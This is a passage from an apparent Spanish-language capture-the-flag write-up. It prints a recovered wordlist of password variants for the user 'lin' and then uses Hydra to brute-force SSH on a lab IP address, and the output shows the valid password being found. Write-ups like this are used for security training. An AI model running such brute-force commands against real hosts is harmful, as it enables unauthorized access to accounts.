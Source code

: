 En cambio, el archivo `locks.txt` contiene lo que parece una lista de contraseñas.

```bash
❯ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7
```

## Explotación

---

Como sabemos un usuario potencial y una lista de contraseñas y además otro servicio que corre en la máquina es SSH, podemos probar un ataque de fuerza bruta con hydra.

```bash
❯ hydra -l lin -P locks.txt 10.10.162.122 -t 6 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-07 23:44:29
[DATA] max 6 tasks per 1 server, overall 6 tasks, 26 login tries (l:1/p:26), ~5 tries per task
[DATA] attacking ssh://10.10.162.122:22/
[22][ssh] host: 10.10.162.122   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-07 23:44:38
```
